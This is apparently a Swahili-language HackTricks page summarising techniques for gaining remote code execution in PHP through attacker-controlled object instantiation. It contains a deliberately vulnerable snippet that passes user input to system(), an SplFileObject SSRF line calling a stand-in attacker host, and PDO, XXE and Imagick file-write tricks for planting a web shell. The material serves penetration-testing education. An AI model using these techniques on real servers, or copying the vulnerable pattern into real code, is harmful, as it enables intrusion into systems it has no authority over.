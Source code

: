 # PHP - RCE kutumia uundaji wa vitu: new $\_GET\["a"]\($\_GET\["b"])

{{#include ../../../banners/hacktricks-training.md}}

Hii kwa msingi ni muhtasari wa [https://swarm.ptsecurity.com/exploiting-arbitrary-object-instantiations/](https://swarm.ptsecurity.com/exploiting-arbitrary-object-instantiations/)

## Utangulizi

Uundaji wa vitu vipya vya kiholela, kama `new $_GET["a"]($_GET["a"])`, unaweza kusababisha Utekelezaji wa Msimbo wa K remote (RCE), kama ilivyoelezwa katika [**andika**](https://swarm.ptsecurity.com/exploiting-arbitrary-object-instantiations/). Hati hii inasisitiza mikakati mbalimbali za kufikia RCE.

## RCE kupitia Madarasa ya Kawaida au Autoloading

Sintaksia `new $a($b)` inatumika kuunda kitu ambapo **`$a`** inawakilisha jina la darasa na **`$b`** ni hoja ya kwanza inayopitishwa kwa mjenzi. Vigezo hivi vinaweza kupatikana kutoka kwa ingizo la mtumiaji kama GET/POST, ambapo vinaweza kuwa nyuzi au orodha, au kutoka JSON, ambapo vinaweza kuonekana kama aina nyingine. 

Fikiria kipande cha msimbo kilichopo hapa chini:
```php
class App {
function __construct ($cmd) {
system($cmd);
}
}

class App2 {
function App2 ($cmd) {
system($cmd);
}
}

$a = $_GET['a'];
$b = $_GET['b'];

new $a($b);
```
Katika hali hii, kuweka `$a` kuwa `App` au `App2` na `$b` kuwa amri ya mfumo (kwa mfano, `uname -a`) kunasababisha utekelezaji wa amri hiyo.

**Mifumo ya Autoloading** inaweza kutumika vibaya ikiwa hakuna madarasa kama hayo yanayopatikana moja kwa moja. Mifumo hii inasababisha madarasa kupakuliwa moja kwa moja kutoka kwa faili inapohitajika na inafafanuliwa kwa kutumia `spl_autoload_register` au `__autoload`:
```php
spl_autoload_register(function ($class_name) {
include './../classes/' . $class_name . '.php';
});

function __autoload($class_name) {
include $class_name . '.php';
};

spl_autoload_register();
```
Tabia ya autoloading inatofautiana kulingana na toleo la PHP, ikitoa uwezekano tofauti wa RCE.

## RCE kupitia Madarasa ya Msingi

Kukosa madarasa ya kawaida au autoloaders, **madarasa ya msingi ya PHP** yanaweza kutosha kwa RCE. Idadi ya madarasa haya inatofautiana kati ya 100 hadi 200, kulingana na toleo la PHP na nyongeza. Yanweza kuorodheshwa kwa kutumia `get_declared_classes()`.

Mifano ya wakandarasi wanaovutia inaweza kutambuliwa kupitia API ya reflection, kama inavyoonyeshwa katika mfano ufuatao na kiungo [https://3v4l.org/2JEGF](https://3v4l.org/2JEGF).

**RCE kupitia mbinu maalum inajumuisha:**

### **SSRF + Phar Deserialization**

Darasa la `SplFileObject` linawezesha SSRF kupitia wakandarasi wake, likiruhusu muunganisho na URL yoyote:
```php
new SplFileObject('http://attacker.com/');
```
SSRF inaweza kusababisha mashambulizi ya deserialization katika matoleo ya PHP kabla ya 8.0 kwa kutumia itifaki ya Phar.

### **Kunutumia PDOs**

Mjenzi wa darasa la PDO unaruhusu muunganisho na hifadhidata kupitia nyuzi za DSN, ambayo inaweza kuwezesha uundaji wa faili au mwingiliano mwingine:
```php
new PDO("sqlite:/tmp/test.txt")
```
### **SoapClient/SimpleXMLElement XXE**

Matoleo ya PHP hadi 5.3.22 na 5.4.12 yalikuwa na hatari ya mashambulizi ya XXE kupitia waandishi wa `SoapClient` na `SimpleXMLElement`, kulingana na toleo la libxml2.

## RCE kupitia Imagick Extension

Katika uchambuzi wa **mategemeo ya mradi**, iligundulika kwamba **Imagick** inaweza kutumika kwa **kutekeleza amri** kwa kuunda vitu vipya. Hii inatoa fursa ya kutumia udhaifu.

### VID parser

Uwezo wa VID parser wa kuandika maudhui kwenye njia yoyote iliyoainishwa katika mfumo wa faili ulitambuliwa. Hii inaweza kusababisha kuwekwa kwa shell ya PHP katika directory inayoweza kufikiwa mtandaoni, ikipata Remote Code Execution (RCE).

#### VID Parser + Upakiaji wa Faili

Imepangwa kwamba PHP inahifadhi kwa muda faili zilizopakiwa katika `/tmp/phpXXXXXX`. VID parser katika Imagick, ikitumia protokali ya **msl**, inaweza kushughulikia wildcards katika njia za faili, ikirahisisha uhamishaji wa faili ya muda kwenda mahali ulipochagua. Njia hii inatoa mbinu ya ziada ya kupata uandishi wa faili bila mpangilio ndani ya mfumo wa faili.

### PHP Crash + Brute Force

Mbinu iliyoelezwa katika [**andiko la asili**](https://swarm.ptsecurity.com/exploiting-arbitrary-object-instantiations/) inahusisha kupakia faili zinazochochea kuanguka kwa seva kabla ya kufutwa. Kwa kutumia brute-force jina la faili ya muda, inakuwa inawezekana kwa Imagick kutekeleza msimbo wa PHP bila mpangilio. Hata hivyo, mbinu hii iligundulika kuwa na ufanisi tu katika toleo la zamani la ImageMagick.

## Marejeleo

- [https://swarm.ptsecurity.com/exploiting-arbitrary-object-instantiations/](https://swarm.ptsecurity.com/exploiting-arbitrary-object-instantiations/)

{{#include ../../../banners/hacktricks-training.md}}
